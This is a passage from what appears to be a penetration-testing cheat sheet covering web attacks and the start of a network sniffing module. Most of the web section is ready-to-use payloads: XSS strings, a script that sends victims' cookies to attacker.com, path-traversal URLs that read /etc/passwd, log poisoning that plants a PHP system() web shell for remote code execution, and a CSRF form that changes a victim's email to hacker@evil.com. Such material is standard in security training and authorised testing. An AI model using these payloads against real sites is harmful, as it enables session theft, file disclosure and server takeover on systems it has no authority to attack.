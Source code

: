 ### Cross-Site Scripting (XSS)
*   **Test Payloads:**
    ```html
    <script>alert('XSS')</script>
    <img src=x onerror=alert('XSS')>
    "><script>alert('XSS')</script>
    ```
*   **Steal Cookies:**
    ```html
    <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
    ```

### File Inclusion (LFI/RFI)
*   **Local File Inclusion (LFI):**
    `http://vulnerable-site.com/index.php?page=../../../../etc/passwd`
    `http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd` (double encoding)
*   **Log Poisoning (to get RCE):**
    1.  Find the log path (e.g., `/var/log/apache2/access.log`).
    2.  Poison the User-Agent string with PHP code: `<?php system($_GET['cmd']); ?>`.
    3.  Include the log file: `http://vulnerable-site.com/index.php?page=/var/log/apache2/access.log&cmd=id`

### Cross-Site Request Forgery (CSRF)
*   **Create a PoC HTML file:**
    ```html
    <html>
      <body onload="document.forms[0].submit()">
        <form action="http://vulnerable-site.com/change_email" method="POST">
          <input type="hidden" name="email" value="hacker@evil.com">
        </form>
      </body>
    </html>
    ```

---

## 📡 Module 5: Network Penetration Testing

### Sniffing & MITM
*   **Wireshark:** GUI tool. Use filters: `arp`, `tcp.port == 80`, `http.request`, `dns`.
*   **`tcpdump` (CLI):**
    ```bash
    # Capture on interface
    tcpdump -i eth0

    # Capture specific host and port
    tcpdump -i eth0 host 192.168.1.105 and port 80
    ```
